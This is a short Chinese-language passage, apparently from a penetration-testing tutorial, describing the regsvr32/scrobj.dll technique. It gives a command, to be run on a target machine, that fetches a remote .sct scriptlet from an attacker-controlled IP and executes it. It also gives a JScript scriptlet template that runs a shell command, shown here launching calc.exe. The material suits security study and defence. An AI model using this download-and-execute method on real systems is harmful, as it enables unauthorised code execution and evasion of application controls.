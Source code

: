 

**13、regsvr32 **

Regsvr32命令用于注册COM组件，是Windows系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行

在目标机上执行：

~~~
regsvr32.exe /u /n /s /i:http://192.168.28.131:8888/file.sct scrobj.dll
~~~

可以通过自己构造.sct文件，去下载执行我们的程序

~~~
<?XML version="1.0"?>
<scriptlet>
<registration
    progid="ShortJSRAT"
    classid="{10001111-0000-0000-0000-0000FEEDACDC}" >
    <script language="JScript">
        <![CDATA[
            ps  = "cmd.exe /c calc.exe";
            new ActiveXObject("WScript.Shell").Run(ps,0,true);
        ]]>
</script>
</registration>
</scriptlet>
~~~

执行命令，成功弹计算器：

![](./image/20200413-13.png)
